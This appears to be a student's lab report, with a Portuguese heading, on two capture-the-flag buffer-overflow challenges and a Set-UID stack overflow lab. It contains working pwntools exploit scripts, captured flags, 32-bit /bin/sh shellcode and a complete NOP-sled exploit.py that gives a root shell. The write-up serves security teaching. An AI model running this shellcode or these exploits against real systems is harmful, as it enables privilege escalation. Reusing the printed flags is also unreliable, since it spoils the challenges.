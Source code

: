 # Trabalho Realizado na Semana 4

## CTF

### Desafio 1

After some time exploring the source code, we found some important information about this executable:

```
- The file mem.txt is opened, read and printed.
- The only way to change which file is read is by overiding the meme_file variable through the scanf function call.
- The scanf function reads 28 bytes to the buffer variable, which has only 20 bytes of space. The other 8 bytes and the ones corresponding to the meme_file variable.
```

We used the scanf function to make a buffer-overflow attack. The following python code was used to get the flag:

```py
#!/usr/bin/python3
from pwn import *

r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"a" * 20 + b"flag.txt") # Send 20 "trash" bytes and then the value of the file we want to open
r.interactive()
```

Flag:
```
flag{c71a568e127be762a634e6f647175766}
```

### Desafio 2

This challenge had some differences when comparing to the first one:

```
- It has an extra variable val with size equal to 4 bytes
- There is an extra comparison to the val value, before opening the file
- It it aldo vulnerable to buffer overflow attack
```

This attack, even though it is different from the first one, it made in the same way since the `scanf` function scans for the extra 4 bytes of the `val` variable. That said, we just need to overide the `val` and the `meme_file` variables, the first one with `0xfefc2122` and the second with `flag.txt`. Since the variables are written in the stack bottom-up, the bytes of the `val` variable must be set in the reverse order. Using the following python script we can perform this attack and get the flag:

```py
from pwn import *

r = remote('ctf-fsi.fe.up.pt', 4000)
r.recvuntil(b":")
r.sendline(b"a" * 20 + b"\x22\x21\xfc\xfe" + b"flag.txt")
r.interactive()
```

Flag:
```
flag{1839859d5fe634c8e2af84c8321f6f54}
```

---

## Buffer Overflow Attack Lab (Set-UID Version)

### Task 1

Both of the binaries open a shell to run some code.

### Task 2

The program has a buffer overflow vulnerability. It first reads an input from a file called badfile,
and then passes this input to another buffer in the function bof(). The original input can have a maximum
length of 517 bytes, but the buffer in bof() is only BUF SIZE bytes long, which is less than 517. Because strcpy() does not check boundaries, buffer overflow will occur. Since this program is a root-owned
Set-UID program, if a normal user can exploit this buffer overflow vulnerability, the user might be able
to get a root shell. It should be noted that the program gets its input from a file called badfile. This
file is under users’ control. Now, our objective is to create the contents for badfile, such that when the
vulnerable program copies the contents into its buffer, a root shell can be spawned.

### Task 3

Running GDB on the debug binary, we got the following addresses:

```
gdb-peda$ p $ebp
$1 = (void *) 0xffffca78
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffca0c
```

Running GDB in stack-L1 binary we get the following addresses:

```
gdb-peda$ p $ebp
$1 = (void *) 0xffffcac8
```

After knowing this values, we needed to start to prepare the `badfile` which would be read by the binary. In order to make it, we started with the python base attack given in the lab called `exploit.py`. 

First of all, we needed to get the correct shellcode. After a closer look at the `Makefile`, we could see that the `stack-L1` was compiled with the `-m32` flag, which means that it was in 32 bit architecture. The correct shellcode to use in this architecture is the following:

```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80"
```

After this, we needed to decide where in the buffer this shellcode would be. After some thinking, we found out that the best position for the shellcode would be at the end of the buffer. This is due to the fact that we would be filling the buffer with `NOP` instructions, which means that we just needed to land in one of the `NOP` to run our code. To make our chance of landing in one of them higher, the best ideia was to get the most `NOP` that we could possibly get, which could be done by pushing the shellcode to the end of the available buffer space. This position would then be `517 - len(shellcode)` since our buffer had length 517.

With the shellcode in the correct position of the buffer, there was one thing left to finish our attack, which was changing the function return address to one that we know that would run our code. For this we had two tasks:
1. Finding out which address should be used
2. Finding out where should this address be placed

The first part was quickly discovered with the help of the debug binary. After getting the values of the `ebp` and the `buffer`, we could quickly find the offset we should use to change the return address. The result of `ebp - buffer` gives us the offset that we needed to change the `ebp` value. We know that the `ebp` value is right before the return address value that we want to change and the architecture was 32 bit so the addresses are 4 bytes long, which means that in order to change the return address, we needed to give it an offset of `(ebp - buffer) + 4` which turned out to be `112`.

Having the position right, we just needed to put there some value. As we previously explained, if the address points to any `NOP` between the place where the address is and the shellcode, we are sure that the shellcode will run. We also know `ebp` value since we previously ran GDB with the binary and the addresses aren't randomized (randomization was turned off in the beginning of this lab). We used the value `0x88` ending up with the following python script:

```py
#!/usr/bin/python3
import sys

shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0xffffcac8 + 0x88
offset = 112

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

After running `exploit.py` and generating the `badfile`, we could successfully run our malicious code and open up a shell when running `stack.L1` binary.
